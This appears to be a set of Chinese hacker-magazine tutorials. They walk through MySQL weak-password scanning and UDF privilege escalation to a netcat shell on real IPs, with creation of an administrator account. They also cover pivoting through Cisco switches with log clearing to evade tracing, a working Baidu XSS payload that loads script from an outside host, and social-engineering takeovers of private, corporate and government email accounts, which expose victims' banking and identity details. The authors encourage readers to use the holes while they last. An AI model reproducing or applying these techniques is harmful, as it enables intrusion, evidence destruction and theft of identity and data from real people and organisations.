接着点一下软件界面的“生成弱口令扫描器”，释放 HSCAN，如图 4 所示。HSCAN 里面都设置好了，只要直接配置如图 5 所示的选项，然后在参数项里选刚才扫描好的 ip.txt 文件，打上勾，就可以开始探测 MYSQL 弱口令了，如图 6 所示。

| IP Address | Username | Password | Type |
| :--- | :--- | :--- | :--- |
| 210.107.142.239 | root | [null] | MYSQL |
| 210.107.142.229 | root | [null] | MYSQL |
| 210.107.142.230 | root | [null] | MYSQL |
| 210.107.142.226 | root | [null] | MYSQL |
| 210.107.142.223 | root | [null] | MYSQL |
| 210.107.142.216 | root | [null] | MYSQL |
| 210.107.142.228 | root | [null] | MYSQL |

图 7

很快我们就可以看到被扫描出的带有弱口令的主机了，如图 7 所示。

我推荐只扫描用户名是 root 的主机，因为 mysql 用户名基本都是没权限的。当然 root 用户也有部分主机没权限，但成功率还是很高的。

我们继续看下面，可以直接点选 HSCAN 扫出的结果，这时会出现一个“连接”的选项，点击后会自动连接到对方的 MYSQL 数据库，然后我们在 mysql> 提示符下输入 Mysql> \. 2003.txt。

这是我之前制作好的导出 DLL 文件 TXT，会在对方主机导出名为 niuzu.dll 的文件，如图 8 所示。

这里说一下，网上很多版本的 HSCAN 只支持登录 MYSQL，在输入 \. 2003.txt 后会提示不能执行指令，只要把 libmySQL.dll 库文件复制到 TOOLS 目录，保证和 MYSQL.exe 在同一个目录就可以解决这个问题了。这样就不需要再安装 MYSQL 完整版也可以使用到该功能。执行后如图 8、图 9 所示，说明我们的 DLL 文件已经成功导出到对方主机，并创建执行函数。

我们来尝试连接看看。点击牛族 3306 提权程序的“打开 CMD 导马提权”按钮，会自动释放 NC.exe。然后我们输入 nc IP 3306，等几秒会看到提示字符出现，如图 10 所示，前面的 4.0.16-nt 是 MYSQL 版本和系统类型，我们这时输入连接密码就可以得到 SHELL 了。我一口气连续试了几台，如图 11 所示。

连续拿到 4 台主机 SHELL，虽然都是 XP 系统，但有些还开了 3389 端口。有朋友会问，怎么 4 台机中 3 台连接密码是 fuck，1 台是 love 呢？因为这几台机器……我之前用过网上流传的版本，密码是 fuck，后来觉得这密码太那个了，就修改了一下，变成 love 了，呵呵。

我们继续，在其中的一台开了 3389 端口的主机上创建了管理员用户 niuzu，如图 12 所示。然后用 3389 连接器连接一下，如图 13、图 14。

已经连接上远程主机，呵呵。教程到这里也就该结束了，经过测试和比较，此方法比单独使用多种工具更有效率。

[本文提到的 mysql 快速提权工具已收录在本期光盘]

## 编辑点评：

没有什么好说的，只是作者为了方便把多个工具集合在一起，这样就方便大家了！另外欢迎菜牛老大重出江湖。

菜牛

# 本文你要结合本期的《高效率的 UDF 提权教程》来看

5 年前经常做教程写文章，后来由于时间忙，离开很长时间。最近有些时间，再看到网上做跳板的教程不少，但用 CISCO 路由设备的基本很少，所以我就写了这篇“结合 WIN 服务器、CISCO 路由多重跳板、DOS 命令状态下成功提权”的教程。

闲话少说，转入正题。我们知道，在登录远程主机并进行一系列操作的时候，会在对方主机上留下痕迹，对方查阅日志就会了解。当然如果你不做坏事，不搞破坏，一般是不会追究的。话虽如此，但我们还是要做好安全措施，以前都流行用代理软件或专门的黑客跳板工具来混淆自己的位置。

代理软件的优点是使用简单、方便，缺点是并不安全。因为代理服务器是在别人那里，你的操作都清楚地记录着，这并不是我们想要的。如果使用专门的黑客跳板工具，优点是有的工具有加密功能，安全性不错；缺点是一般都需要安装服务，会多出端口，注册表和系统服务都会有显示。当然，最担心的是怕软件作者给我们留个小后门，那就太冤了，还是我们自己做跳板心安些。

## 跳板条件：

- 1、你有控制权的远程服务器若干台
- 2、路由器或支持 TELNET 的交换机若干台

跳得越多，操作时的网络速度会越慢，一般跳 3 次就可以了，你又不是做什么惊天大事情。下面就是我演示的一次实例：

- 第一重跳板马来西亚 WIN 服务器  
  功能：初始跳板，机器挑网速快的；
- 第二重跳板 CISCO 交换机  
  功能：中转站，设备选路由器或其他品牌路由交换机也可；
- 第三重跳板 X 国 WIN 服务器  
  功能：工作平台，用他来具体实施登录目标主机的操作。

至于如何获得 CISCO 设备并控制，我以前的教程里有，这里就不重复了，让我们开始漫漫提权旅程吧。

首先用 3389 远程连接器连接你控制的服务器，如图 1 所示。

我登录的是马来西亚 WIN 服务器，建议大家找的服务器是周边国家，这样网速会相对快些，并且这台主机你要经常清理一下日志。因为这台主机是直接连接到你的电脑的，所以对它好点，尽量不要装些杂七杂八的软件，保持干净，像你从来都没来过一样，哈哈。

登录马来西亚 WIN 服务器后，我们运行 CMD 命令行，用 TELNET 来进行 CISCO 交换机的登录操作。输入命令 telnet ip，然后提示输入密码，如图2所示。进入普通模式，然后再输入特权密码进入特权模式，大家注意看如图3所示的画面。
普通模式下的提示符是 `>`，特权模式下的提示符是 `#`。普通模式下有很多 CISCO 命令是执行不了的，虽然可以执行 TELNET，但我们一会儿要清日志，所以还是需要特权模式的。这里我们已经跳到了中转站这步了，因为是 CISCO 设备，不要再幻想有 GUI 界面的操作（WEB 管理除外）。

接着我们继续 TELNET 到 X 国 WIN 服务器，跳到我们的工作平台，这样就可以进行安全的提权操作了。还是输入命令 `telnet ip`，如图4所示。
连接成功，如图5所示，我们已经 TELNET 登录到某 WIN 服务器的 C 盘目录下。
好了，前期的跳板准备工作已经顺利完成，下面可以进行提权操作了。这里我们演示 UDF 提权，过程是先远程写入指令到 MYSQL 数据库表后，导出为 DLL 文件，然后创建执行函数，接着进行 NC 连接，得到系统 SHELL。如图6所示，这是我之前扫到的 MYSQL 主机，我们就选第二台：211.52.118.84 吧。

| IP Address | Username |
| --- | --- |
| 211.52.118.121 | root |
| 211.52.118.84 | root |

图6
先利用 MYSQL 连接对方主机，`Mysql> Mysql -h ip -uroot`，如图7所示，我们成功连接，提示符正等待我们输入指令呢。我们输入指令 `Mysql> /. 2003.txt`，远程写入对方数据库，如图8所示。
看到提示了吧？表示成功导出 DLL 文件，并创建函数成功。现在我们可以连接了，输入 `nc ip 3306`，如图9所示。

然后等待出现提示符号后，输入密码 LOVE，然后按 ENTER 就直接得到 SHELL 了。用 `netstat -an` 命令看看，对方还开了 3389 端口。又用 `ver` 命令一看，发现是 XP 主机，如果是 2000 或 2003 服务器就好了。
现在是时候清除我们的脚印了，在 WIN 服务器里删除日志我就不多说了，网上已经有很多教程，我们主要来清除 CISCO 交换机的日志。
我们输入 `show logg` 可以看到如图10所示，显示了之前记录的日志信息。

再输入 `clear logg` 就可以删除 CISCO 交换机里的日志了，CISCO 路由器的删除指令是一样的，如图11所示。

看，刚才满满的日志被清空了。因为 CISCO 是利用 FLASH 闪存来保存设置的，如果想更彻底些，可以把 CISCO 里的 FLASH 所保存的信息删除，那就真的不留痕迹了，想恢复都困难。

大家都知道，WINDOWS 的硬盘就算格式化，也有比较大的几率可以恢复里面的部分数据。比如刚才 211.52.118.84 被提权了的主机发现被入侵，要进行追踪。由于 211.52.118.84 也是某主机，首先他会追到我们的第 3 跳板工作平台的某服务器。通过 IP 追踪，确定了 IP 是属于哪间公司的，追踪人员来到该公司，在第 3 跳的韩国服务器上手工恢复了日志文件，获得了我们第 2 跳板中转 CISCO 交换机的 IP（203.115.71.85）是印度的。他们再飞往印度，并找到该交换机设备的机房，进行恢复。如果我们删除了 FLASH 闪存，是很难恢复的，一般都是恢复出厂设置，所以说追踪工作到这里就中断了。后方的马来西亚服务器安全了，我们就安全了，真是很好很高兴。
图11

但别以为这就真的很安全，因为我们主机访问都经过路由，路由进行数据包转发，如果你真的干了惊天大事情，通过以上慢慢筛查，还是会被发现哦。所以奉劝大家不要搞破坏，做做实验练习下就可以了。别人才不会费那么大功夫找你，呵呵。教程到这里就结束了，以后有时间会继续奉上一些教程文章，欢迎大家一起交流。

> 编辑点评：欢迎作者再重写一些如何入侵和控制路由器的教程，因为本文没有提到这方面，感觉像流水账一样。

# 百度首页挂马漏洞利用

Ljjsoft

- 从本文你可以学到：
- 利用百度首页漏洞挂马

前段时间百度暴出惊人的挂马漏洞，大家可以利用 `index.php` 这个文件挂马，执行任何脚本程序。似乎之前中国工商银行也出现过相似的漏洞，不过当时很快就修复了，毕竟是银行的网站。这里给大家演示下这个漏洞的具体利用，为大家挂马出一份力。我本人并不鄙视挂马，不过建议大家还是少挂马，研究漏洞倒是应该鼓励的。

各大黑客网站给出的漏洞利用演示地址是这个：

```text
http://www.baidu.com/index.php?bar="/**/style=xss:expression((window.r!=1)?eval('window.r=1;eval(unescape(location.hash.substr(1)))'):1);#alert%28121212%29


```

打开这个地址就会弹出一个信息框 121212，如图1所示。

框框弹出来了，证明漏洞存在，现在我们来看如何具体利用。我的朋友在测试时说只能弹出数字，我当时觉得好笑：怎么可能数字都可以弹出却弹不出字母呢？呵呵，后来才知道原来他只是将地址中的 121212 换成了字母，这样当然弹不出来了。
图1

对这个 URL 进行一下转换，大家就清楚了。转换后的地址是：

```text
http://www.baidu.com/index.php?bar="/**/style=xss:expression((window.r!=1)?eval('window.r=1;eval(unescape(location.hash.substr(1)))'):1);#alert(121212)


```

可以看出这里是执行了脚本 `alert(121212)`，如果把这里的 121212 换成字母，比如就是 `alert(ljjsoft)`，当然弹不出来啦！因为这里是字符串，需要加引号的。呵呵，我们来换成 `alert('ljjsoft')`，加上引号试试。如图2所示，成功弹出了字符串。
图2

呵呵，这里大家看到的背景似乎不是百度的哦！？是的，这里确实不是百度的背景，为什么呢？

我弄个假地址来骗大家吗？不是的，这是因为页面是先执行我们的脚本再执行其他的代码，弹出之后才会显示出百度的页面来。

下面进行挂马，先来直接挂马，就是直接嵌套一个网页，让 Google 来做示范吧。在 IE 浏览器地址栏里输入：

```text
http://www.baidu.com/index.php?bar="/**/style=xss:expression((window.r!=1)?eval('window.r=1;eval(unescape(location.hash.substr(1)))'):1);#document.writeln("<iframe src=http:\/\/www.google.cn width=500 height=500><\/iframe>")


```

这里把 Google 嵌套在网页里，宽和高都设置成了 500，如图3所示。
图3

挂上了哦！再来 js 挂马，我直接写几个字来示范吧。在 js 当中写上 `document.write('test test')`，然后保存为 `test.js`。我传到自己的网站上，地址是 `http://www.lijiejie.cn/so/test.js`。我们构造一个地址：

```text
http://www.baidu.com/index.php?bar="/**/style=xss:expression((window.r!=1)?eval('window.r=1;eval(unescape(location.hash.substr(1)))'):1);#document.writeln("<script src=http://lijiejie.cn/so/test.js><\/script>")


```

这样就可以进行 js 挂马了，效果如图4所示。
图4

我们只要把 js 里面的内容换成挂马的代码就可以了，也可以是其他的任意脚本。这里为了直观，只是写了几个字。不知道这个漏洞能利用多久，能用的时候大家赶紧用吧。另外需要指出的是，在 QQ 中进行传播时，因为 QQ 会把其中的单引号和括号遗漏，所以复制时连接地址是不完整的，大家注意一下。

就介绍到这里吧，顺便送大家一个 URL 编码工具，大家直接在网上查找那个示例地址进行转换吧。我是冰域剑客，这年头什么剑客之类的名字太多了，偶忍心换了个新的：ljjsoft。

> [URL 编码.exe 已收录在本期光盘]

# 菜鸟入侵中：社会工程学的爆发

Dream an end

这次利用社工的入侵纯属偶然，由于网站管理员的一个小小失误，引起的由点到面、由网站到个人的全面溃败。在让人心有余悸之时，更值得各网站管理员深刻地反思。

## 一、平淡的开始

终于考试完了，呵呵，心情放松啊，就看看有什么运气不好的网站拿来玩玩吧，于是本文的主角网站 `www.hld***.com` 就这样跳了出来。学了这么长时间 asp，还是比较喜欢用工具做事。毕竟在网吧上网要花大洋的，时间就是金钱。话不多说，先用啊D扫扫，看看注入咋样。运气还行，注入点不少。随便捡一个来检测一下，发现数据库是 Access 的，那就直接检测管理员账号和密码了，呵呵，一会儿账号和密码就都出来了，而且是明文显示，如图1所示。晕，这个网站的安全意识看来不高。

这样再由扫到的后台地址，用账号 `admin` 和密码 `lgw****` 顺利地进入了这个网站的后台，好玩的故事就这样开始了哦！接着看吧，呵呵。
图1

## 二、小鸟的试探

在后台我发现了网站的致命伤——数据库备份，如图2所示。

这样的思路应该很简单，找一个上传的地方，把一句话木马后缀名改为 gif 上传，得到上传的具体路径，然后打开数据库备份，把刚才的 gif 文件备份成 asp 的。备份成功后，访问备份后的路径，也就是一句话木马的地址。

这里我就不细说了，“黑手”上早就说过，大家可以翻阅以前的相关文章，这不是重点。可是遗憾的是，理论和实践是两回事，以前一直成功的数据库备份，今天竟然出了故障。系统已经提示备份成功，可就是访问不了，不知怎么回事，貌似是我人品有问题了吧？哈哈，没办法，这条路半个小时后不得不以放弃而结束，晕。
图2

于是发挥菜鸟敏锐的洞察力，接着找……呵呵，之后我看到了如图3的界面。

这貌似是 ewebeditor 啊？哈哈，点右键看看源码，果然有 ewebeditor 啊，路径为 `SRC="editor/ewebeditor.asp"`，看来经验是相当重要地。试着访问默认的首页，果然看到了这个熟悉的界面，如图4所示。

哈哈，兴奋中！用默认密码和账号访问，可惜失败了。这种情况以前总是见到，一般管理员不会发现有 ewebeditor，默认密码和账号很多都是先进去的黑兄改的，以防止别人再进。那就下载默认的数据库 `editor/db/ewebeditor.mdb` 来看看，下载成功，然后在数据库中得到了管理员账号和密码的 md5 值。

我赶紧拿去 cmd5 跑，呵呵，用户名出来了，是 `cabc`，可是跑密码时却出现如图5所示的情况。
图3
图4
图5

晕，没想到 cmd5 也走向商业化了，太不厚道了。菜鸟最大的痛苦是什么？莫过于有了账号和密码的 md5 值却破不出来，眼睁睁地看着后台发呆。不想花钱，没办法了，那这条路也最后宣告失败，失落中……不过再说一句，虽然进不去后台，可先把问题留着以后解决，经常总结问题可是个好习惯啊。

## 三、发现导火索

两个可以拿 shell 的地方全没有办法了，那怎么办？难不成我只能放弃吗？想到那个 ewebeditor 就遗憾，晕。我无聊地在后台随便点着，心情也因失落而平静了。这时平静的观察和对细节的注意就起到了作用，在我还没有绝望的时候，突然在图2“邮箱参数设置”一栏中发现了这样一个界面，如图6所示。

我想这既然出现在了后台，那应该是网站管理员的邮箱和密码吧，那有什么用呢？里面也许有关于这个站的一些敏感信息吧，不妨看看。密码是 7 个黑点，那好办，点右键看源码，在 `value=` 中我看到了这七个点的密码，密码是 `lgw****`。可是让我更兴奋的是，这个 163 邮箱的密码竟然和 `www.hld***.com` 这个网站后台登录 `admin` 的密码一样，这充分说明这就是网站最高管理员的邮箱。
图6

他好像很喜欢用这个密码啊，而且貌似有更深的关系。

那好，既然我对这个网站没办法了，就先去管理员先生的邮箱里看看有什么好东西吧，万一对网站的陷落有用呢？到此刻为止，我的思想矛头已经指向了网站管理员本身，窃喜中。

## 四、导火索的引燃

我果真利用这个邮箱和密码，顺利地进入了管理员的 163 邮箱，如图7所示。
图7

开始一看还真让我吃了一惊，在他的收件箱里竟然有 300 多封未读邮件和几百封已读邮件，而且在网络服务里还有 8 封未读邮件，这说明管理员有些日子没进邮箱了。而且这么多未读邮件得有多少管理员本身的敏感信息啊，呵呵。那管理员先生就先对不起了，我不做什么坏事，就帮你看几封邮件，满足一下我强烈的好奇心吧，呵呵。

看了一会之后，我发现在这些邮件里有很多虚拟主机的注册信息，如图8所示。
图8

这个管理员买这么多网站空间干吗呢？这让我对这个网站管理员的身份有了强烈的好奇心，可现在这并不是最重要的。先不想那么多，我发现这些虚拟主机产品都是来自同一个网站 `infoyisence.com`。那顺藤摸瓜，我去这个卖空间的网站看看吧。

## 五、彻彻底底的爆炸

在 IE 中打开这个卖空间的网站的业务平台首页，如图9所示。
图9

由于小菜我也在做网站，买过空间，知道如果你在这个站买的空间，那你必然在这个站申请了会员，而且你的 FTP 账号和密码必然要在这个会员里改。这个账号和密码要是落到别人手里，那你的网站就随时都可能被毁掉啊。可是在管理员的那些邮件里我没有找到关于这个的用户名和密码的信息，那该怎么办？

这时运气就站在了我这一边。我想既然 `www.hld***.com` 的后台登录密码和网站管理员自己邮箱的密码都一样，那也就是说，这个密码对于那个管理员来说是个非常常用的密码啊，那我不妨也在这里试下。用户名嘛，这个站在给那个管理员的邮件里都是用 `lgwasp` 先生称呼他的，而且又和邮箱账号 `lgwasp` 一样，那用户名就是这个了。

这时对一个人性格的猜测很重要，我已经开始觉得那个网站管理员先生喜欢用同一个账号和密码在不同的网站进行注册了。我试着用猜测出的用户名和密码登录，果然进去了，兴奋中，如图10所示。

我大概看了一下，他还真买了不少的网站空间呢，因为在这个账户里我看到了很多他已经付费的空间，如图11所示。
图10
图11

稍微接触过一点做网站的人都知道，这个会员账户掌握着一个个网站的生死大权，在这里我已经可以以他的身份对他所购买的空间为所欲为了（当然我不会这么做）。比如我可以更改他的任意一个空间的 FTP 密码，FTP 账号在邮件里已经有了，这可比后门对网站的危害要大啊，这么多网站呢。
图12

幸好我只是个技术学习者，不做坏事的，呵呵。管理界面如图12所示。

待我的心情平静了之后，仔细看了看这几个虚拟机的主机详细信息，在看到图11中最后一个时，主机名叫 `cabc`，当时就觉得这四个字母很眼熟，可是就想不起在哪见过。直到晚上回到宿舍时才突然想起，`www.hld***.com` 那个网站不是有 ewebeditor 吗，我不是下载默认数据库之后去跑用户名和密码了吗，那个用户名破出来就是 `cabc` 啊，可是密码要收费才给看的。这个主机名也是这个 `cabc`，说明那个密码应该是管理员改的，而且这个主机名对应的就该是 `www.hld***.com` 这个站啊。

哈哈，这样啊！既然是管理员把默认密码改了，以我现在对管理员的了解，这个站有戏了……这意味着什么呢？他的那么多密码都和 163 邮箱密码一样，这个应该也不例外吧！

我兴奋地匆匆跑进网吧，试着用户名为 `cabc` 和他那个常用密码 `lgw****` 登录，果然进去那个 ewebeditor 了，哈哈，狂喜。添加新的样式，然后在 ewebeditor 首页预览我新增的样式，上传 asp 大马，终于获得了 `www.hld***.com` 这个网站的 webshell 了，感动啊，如图13所示。
之后我又把那个管理员邮件的内容分析了一下，知道他只是 `www.hld***.com` 的管理员，他还有一个自己的网站，叫 **工艺品采购网。经过半个小时的分析，发现这个站在前台就有 ewebeditor，我找到 ewebeditor 的路径，下载默认数据库，发现账号和密码的 md5 值和上一个 ewebeditor 一样，毕竟他在什么上面都喜欢用一样的密码嘛，呵呵，都不用拿去 cmd5 跑了，直接登录。通过添加样式，也成功拿到他这个站的 webshell，奸笑中。

## 六、爆炸后的惨剧

网站管理员在后台的疏忽泄露了自己的 163 邮箱和密码，这让我们获得了更多非常有价值的信息，使得我不光成功拿到他两个网站的 webshell，而且还得到了他购买空间网站的会员账户和密码，并获得了他的一批 FTP 空间的管理权限，这个权利可远远大于一个 webshell 啊。

通过分析他邮件的内容，里面很多邮件都是他在不同网站注册后，网站发给他的注册信息，所以我还得到了他在阿里巴巴卖空间的会员名和密码、他在淘宝注册的会员和密码、他的网银账号和密码、他在 ISP 数据中心的会员名和密码等等，而且大部分用户名和密码都是他那个常用会员名和密码，晕。我甚至在他的邮件里发现了他的住址、职位、手机号，甚至是身份证复印件……

抛开对他网站的危害，就对他个人而言，我基本上掌握了他真实生活中的、网络上的一切信息！也就是说，在网络这个虚拟世界里，我已经可以完全替代他做任何事情了，这种对他个人的入侵简直就是致命的！而这一切，都源于一个不被重视的邮箱和密码！

我想，如果我是一个网上的骗子的话，我完全可以在网上代替他做任何利益上的事情，这可以摧毁一个人。想想就可怕，要是遇上真的骗子，可就没我这么善良了。为了真实，再截几张图让大家看看吧，如图14、图15、图16、图17所示。
## 七、最后的反思

通过这个事件，希望在网络上的人都应该重视起自己个人信息的安全性，不要无所谓，因为有的时候一个小小的细节可能毁掉整件事或整个人生。特别是那些网站管理员，如果你不敢保证你自己的后台固若金汤，就不要把密码之类的私人信息向里面写，那可能就会成为你的网站和你自己人生的失败点，仅以此文敬告。
本小菜第一次写文章，感谢孤水绕城的鼓励和一直以来在技术上的指导。我黑手 ID 为 layne，有问题敬请指教。

> 编辑点评：
> 千里之堤，毁于蚁穴。其实作者写这么多，还是入侵过程中的信息收集工作加上发散思维而已。

> 编辑点评：
> 这段代码写得非常精巧，作者没有解释，我在这里说下。
> `location.hash` 是获得 URL 中 `#` 后边的字符，就是 `#alert(121212)` 了。
> `location.hash.substr(1)` 把 `#` 去掉了，获得的就是 js 代码 `alert(121212)` 了。另外，这段代码还用到了三元运算符，如果 `window.r!=1` 为真的话就执行 `eval(unescape(location.hash.substr(1)))`，于是弹出了 `alert(121212)`。但是由于又用到了 css 中的 `expression` 函数，所以给它又做了一个设定，是弹出对话框后让 `window.r=1`，这样让弹出对话框只执行一次，要是去掉了 `window.r=1` 就会无限弹框了。我希望大家看这段代码不仅仅是会利用，更要明白其原理。

# 一次反击引发的“惊涛巨浪”

夜翼

声明：此篇文章仅做社工技术的一次交流学习之用，因文中牵扯到一些国家机构，请广大读者不要去用来搞破坏，否则会带来很严重的后果！如不听劝告，所造成的任何责任均与本人和《黑客手册》无关，特此声明！

先给大家说一个假想设定：在你手中没有任何黑客工具、木马的情况下，可以攻下一个邮箱、拿下一个网站、获取企业的内部技术资料吗？可能有人说：那怎么可能？即使水平很高，能做到，也是件麻烦的事情吧！但是，我要在这里给大家一个自己的攻击过程，没有使用任何黑客工具，仅在 40 分钟内就拿下了包括破解 126 邮箱、获取中国移动内部技术资料、拿下国家环保局内部邮箱的一个纪实，使用的技术就一个——社会工程学！

估计大家看到这篇文章的时候已经是放暑假了，放假无聊的时候我建议大家好好钻研一下咱们“黑手”的那本《黑客社会工程学攻击》吧！你们会收获匪浅的！

## 第一部、反击触发 126 波澜

某日，在坛子的“黑软交流”版块转悠，忽然看到很久以前我刚入门时的一个“LAN 内 MSG 攻击程序”的帖子内有人跟帖谩骂嘲笑，言语极其恶劣。随即我便向版主小风求救，小风说：因为是跟帖回复，他也爱莫能助，让我自行解决。

于是在小风的建议下，“反击”开始了！我首先从《黑客手册》的论坛开始收集信息，在他论坛的个人详细资料中除了得到了一个注册邮箱之外，几乎没有什么有用的资料，如图 1 所示。

可以看到是一个 126 的邮箱，那么我是不是可以用他的这个邮箱来获取他的真名，然后再直呼其名，要求其道歉呢？那样他可能会郁闷一下的！好，说干就干，首先看看他在支付宝有没有用此邮箱认证，因为支付宝的认证是实名认证，牵扯到个人利益关系的，很少有人将其视为儿戏。

输入链接 https://www.alipay.com/trade/i_credit.do?email=lx****@126.com 查看，很不走运，他没有在这里认证的记录，如图 2 所示。

看来我要再深一步地去探查一下了，来到 126 邮箱的登录界面，输入了他的用户名。尝试性地使用了下用户名做密码登录，当然显示错误，拒绝登录了。但是一个选项却映入眼帘，那就是“忘记密码”！点击之后来到取回密码的界面，126 提供了好多种可以取回密码的选项，如图 3 所示。

经过简单的分析，只有第一个可行性大点，我们这里来看看用“取回密码”的第一个选项。点击进入界面后，要求输入用户名和注册时的匹配生日！用户名简单，可是生日怎么获取呢？这个也难不倒我们！一般网络上的用户在哪里会有他的生日记录呢？第一个我就想到了 QQ。可是 QQ 个人资料的东西也未必正确，但是 QQ 还有一个地方的资料可信度是很高的，那就是 QQ 交友中心！在那里一定能获取到我们想要的东西。

可是他的 QQ 号码我们怎么才能得到呢？这时我的目光落在了他邮箱的用户名身上，这个邮箱的用户名和他在《黑客手册》的注册 ID 是一致的，从而我分析这是一个他的通用网络身份 ID，一定也在别的地方注册过！

随即我便将其用户名 LX**** 放到百度搜索，果然发现了好多与之有关的资料，我们去这个以 ID 命名的个人博客看看，如图 4 所示。在这个个人空间中，此人发表了好多文章，在其中一篇文章中我获得了他的 QQ 号码，如图 5 所示。

得到了 QQ，我们就可以去交友中心看看他的生日了，当然结果也没让人失望，我们成功地获得了他的出生年月日！至于正确与否，我们去 126 验证一下。

在取回密码的界面，输入刚才获取的出生年月日后确定，成功进入了下一步！在这里我发现了 126 的一个不算漏洞的漏洞，就是对生日输入的错误次数没有做限制，也就是说我们可以无限次地去猜，直到正确为止。所以在没有获取具体生日的情况下，我们可以根据其现在的年龄推算出他的出生年份，再根据他的星座划分月份和日期。即使使用手工，不出 10 分钟也就能推测出来正确的生日，当然这是在没有获取的情况下。

到达下一步以后，只要求回答预设问题答案便可以直接修改新密码了，这可是出乎我的意料之外，并且对问题答案的输错次数也没有限制。同上一步猜生日一样，这里也可以无限次猜测，并且每次的验证码都是一样的！不知道 126 是怎么想的。

这里他的问题是“您的家乡是哪里？”，在以后数次破解其它 126 邮箱的时候发现，这个问题的出现率最高！嘎嘎，先输入新密码和验证码，然后回来填写答案。这种问题貌似形同虚设，因为在他 QQ 空间的个人档中就有他自己写的家乡籍贯，如图 6 所示。

按照得到的信息输入后却提示不对！幸好可以无限次猜测，我便加入省市等字符，并且拆分排列组合试了个遍，结果就是一个：不正确！难道根本不是邵阳的？或者说他的答案已经到了乡镇这一级？这可怎么办？放弃吗？就在这时，我看到了在他的 QQ 空间里面有个好友圈，里面有好多好友。其中有一个分组信息为“家人”，看来他与这些人的关系很近，既然能分到“家人”组，那么住地一定是一样的了！

我是不是可以在他这个好友身上“旁注”一下，从而打开缺口呢？我用一个新 QQ 号加他为好友，利用他的好奇心理和地域相近所具有的亲和力在验证信息里面写道：“你好，你也是邵阳的？”，这样可以提高我被他加为好友的成功率，从而对我的警惕性和不信任度也会无形地降低一个等级！果然，他接受了！于是我和他进行了简单的对话，如图 7 所示。

一共四句对话，我就获得了新的地址：邵东。于是我迅速地将新的地址填入到答案中，激动人心的页面出来了，如图 8 所示。

至此，我便成功地进入了他的邮箱，不进不知道，一进吓一跳！在他的邮箱中有 N 多的注册信息，其中得到一个他的密码，可谓是走遍江湖！包括上面百度到的那个个人主页，还有他注册的好多论坛，包括“黑手”；申请的上线空间、FTP 空间、淘宝等，不胜枚举！全部可以进去！邮箱中还有好多他的个人研究资料，和他一些朋友的手机、邮箱联系方式！如果再想发挥社工的威力，这些都派得上用场！

最终我只是简单修改了他个人主页的页面信息，发泄了我的不满了事。不过 126 的这些验证不严格，还有取回密码方式的简单，值得我们去好好研究一下！

后来我测试了一下，10 个邮箱，8 个都可以成功被解掉。各位看到这，你们也应该知道如何去保护自己的 126 了吧？该删的删，该改的改吧！

PS：咱们《黑客手册》光芒果的 126 邮箱也很危险，可以被攻破的，我的破解只进行到一半，由于联系不到光芒果本人，破解后害怕影响到“黑手”的工作，便没有再继续下去。

## 第二部、地震引发“移动”海啸

在大地抖动的日子里，我对移动的失望可谓是到了极点，移动直接被瞬间集中的大流量通话给 DDOS 了。还有一些事情就不说了，总之我有了向移动反击的念头。

先开始在 Google 上输入“中国移动”四处查看，结果一无所获。换个关键字再看看，我输入了“陕西移动”，结果出现了好多本省移动公司的一些网站，并发现陕西省移动的统一域名都为 snmobile.com，于是再将搜索语句 intext: snmobile.com 输入后搜索，一页一页地翻看，突然一个 *****@snmobile.com 的内容映入了我的眼睛，这难道就是传说中的移动内部邮箱吗？如图 9 所示。

去看一下吧，说不定能给自己注册一个，以后社工用得到。可是它的邮箱登录页面在哪里呢？在相关的网站上转悠了好久都没有找到登录页面，浪费了很多时间。莫非他们的邮箱只能在内部网络登录吗？正准备放弃的时候，突然看到了网易等站点的邮箱登录页面 mail.163.com、mail.126.com。按照这个规律下来，莫非移动邮箱的登录界面是 mail.snmobile.com？我试着打开看看，果然找到了邮箱的登录页面，如图 10 所示。

我输入了在 Google 里面找到的一些邮件地址，用一些简单的常用密码做测试，都没有成功，看来基本的安全意识都还是有的。这时我又看到了登录页面左上角的“找回密码”选项，126 邮箱在这里有问题，那么能在这里撕开移动邮箱的口子吗？打开后让我欣喜不已，简直比 126 的还简单，如图 11 所示。

提交之后，会有一个预留答案问题，一般都是很简单的问题。由于会牵扯到一些问题，我这里就不截图了，回答完毕后，便可以直接更改新的密码了！

我在更改后进到邮箱，发现了很多移动内部的资料，还有一份内部的联系表，表中姓名、邮箱、手机一应俱全，可知危害有多么巨大了！

其实这些验证上存在的缺陷都是自己暴露给别人的，126 存在的问题 163 一样存在，只是 163 邮箱多了次数限制，这样一来便会限制破解的成功率，但是只要信息掌握得正确，一次就可以破解了！下面再来看看移动所存在的问题，别的地方会不会存在呢？

PS：试验的读者小心，这个邮箱系统在登录时会记录 IP 地址、时间的。

## 三、借“移动”掀起国家环保局波浪

从移动暴露的问题来看，主要是由于使用的邮箱系统有问题。我们在网上搜寻一下这套企业邮件系统，它的关键字为“企业邮局中心”，于是咱们可以使用 Google 搜索语句关键字来查找一下，如 intitle: 企业邮局中心。结果吓了一跳，使用这个邮件系统的还不少呢！第一个就是国家环保局的一个单位，如图 12。

然后，咱们故伎重演。在 Google 中搜寻“@12369.gov.cn”的关键字，搜索语句为 intext: @12369.gov.cn，结果出来了好多，我们找其中一个来测试一下。

点击登录页面的“取回密码”选项，填入邮箱，这一步同图 11 一样，然后便到了回答预留问题的界面，如图 13 所示。

我们可以看到预留问题是“Wie heissen Sie？”，经过“百度”得知这是一句俄文，其大意为“请问尊姓大名？”。难道是在问它自己的用户名吗？我顺手将此邮箱的用户名写了进去，竟然成功了，如图 14！

由于此邮箱属于国家政府单位，我没有再进一步去修改密码，点到为止！其实还有好多使用这套邮件系统的单位，这个邮箱本身的 BUG 加上使用人员安全意识的不高，便会带来很严重的危害。

## 四、写在后面的话

估计小黑们看完后，126、163 邮箱的众多用户又要遭殃了。我不提倡去祸害别人，也希望 126 能及时修改 BUG，真的很危险。在我写这篇文章的时候，做了一个试验，10 个 126 邮箱，在只知道对方 QQ 号码的情况下，顺利破解了 8 个！光芒果的邮箱也已经到最后一步，问题也相当简单。所以，在上面的例子中，大家应该明确，一些重要的资料、文档、密码，还是不要保存在邮箱中。那里并不安全！

根据我的攻击思路，大家逆向一下。聪明的你，知道如何防范社会工程学攻击了吧？拥有 126 邮箱的小黑们，赶紧去加固一下吧！移动使用的那个邮件系统也是小黑们练习社工的好地方，可以获得好多信息资料的！但是很危险，不提议大家去以身犯险！仅作研究之用！

好了，希望大家能在这篇文章中学到东西！我的 ID：夜翼，欢迎大家和我交流！顺便说声，我和小风、水无痕已经是论坛帖子质检人员，发现违规帖可直接与我们联系举报！希望大家齐心协力共同维护好我们的《黑客手册》！

